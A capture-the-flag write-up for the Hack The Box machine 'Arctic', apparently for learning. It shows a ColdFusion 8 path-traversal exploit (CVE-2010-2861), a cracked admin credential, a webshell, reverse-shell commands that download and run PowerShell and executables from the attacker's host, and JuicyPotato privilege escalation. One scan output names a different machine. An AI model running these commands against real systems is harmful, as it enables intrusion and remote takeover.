








# Arctic (`10.10.10.11`)

## Summary

I find `Adobe Coldfusion 8` running, crack the admin password, upload a CFM webshell, get a PowerShell reverse shell and then use JuicyPotato to get root.

## Enumeration

I start a portscan of all ports (`-p-`), running OS, service version, and vulnerability scripts (`-A`), skipping host discovery (`-Pn`), with verbose logging (`-v`) and output to a file (`-oN`).

```bash
$ nmap -p- --min-rate 10000 -Pn arctic.htb
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-12 02:21 CDT
Nmap scan report for arctic.htb (10.10.10.11)
Host is up (0.059s latency).
Not shown: 65532 filtered ports
PORT      STATE SERVICE
135/tcp   open  msrpc
8500/tcp  open  fmtp
49154/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 18.95 seconds

$ sudo nmap -A -v -p 135,8500,49154 -Pn -oA allports silo.htb
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-12 02:21 CDT
Nmap scan report for silo.htb (10.10.10.82)
Host is up.

PORT      STATE    SERVICE VERSION
135/tcp   filtered msrpc
8500/tcp  filtered fmtp
49154/tcp filtered unknown
Too many fingerprints match this host to give specific OS details

TRACEROUTE (using proto 1/icmp)
HOP RTT    ADDRESS
1   ... 30

NSE: Script Post-scanning.
Initiating NSE at 02:22
Completed NSE at 02:22, 0.00s elapsed
Initiating NSE at 02:22
Completed NSE at 02:22, 0.00s elapsed
Initiating NSE at 02:22
Completed NSE at 02:22, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.12 seconds
           Raw packets sent: 144 (9.456KB) | Rcvd: 0 (0B)
```

### Port 8500


Looks like an `Adobe Coldfusion 8` install.




I use `CVE-2010-2861` to extract the password, using an exploit found here: https://www.exploit-db.com/exploits/14641

```bash
# Working GET request courtesy of carnal0wnage:
# http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en

$ curl http://arctic.htb:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```




I feed the hashed password to `john` to crack it.


`admin:happyday` should let me in.



It does.

## Reverse Shell




Click `Schedule New Task`.

I find the `wwwroot` directory in the java classpath of the server settings.





I copy a CFM reverse shell to the current directory and start a web server on port 80 with `$ sudo python3 -m http.server 80`.


I test command execution.




Let's get a full shell. I use a `nishang` powershell reverse shell.

```bash
$ cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 shell.ps1
$ echo "Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.27 -Port 443" >> shell.ps1
```

I deliver this payload using an `msfvenom` payload:

```bash
$ msfvenom -a x64 --platform Windows -p windows/x64/exec CMD="powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.27/shell.ps1')" -f exe -o shell.exe
```

I use the webshell to download this payload from my webserver. 

`/c certutil.exe -urlcache -f http://10.10.14.27/shell.exe C:/ColdFusion8/runtime/../wwwroot/shell.exe`


I start a `nc` listener.


Run the exploit.


And get a shell as `tolis` and can grab the flag.


## Privilege Escalation

I check my user privileges and see I have `SeImpersonatePrivilege`, which means it's Juicy Potato time.


I move the executable over with: `PS> certutil.exe -urlcache -f http://10.10.14.27/JuicyPotato.exe JuicyPotato.exe`, and run it with the following command: `./JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c C:/ColdFusion8/runtime/../wwwroot/shell.exe" -t *`, after starting a `nc` listener.


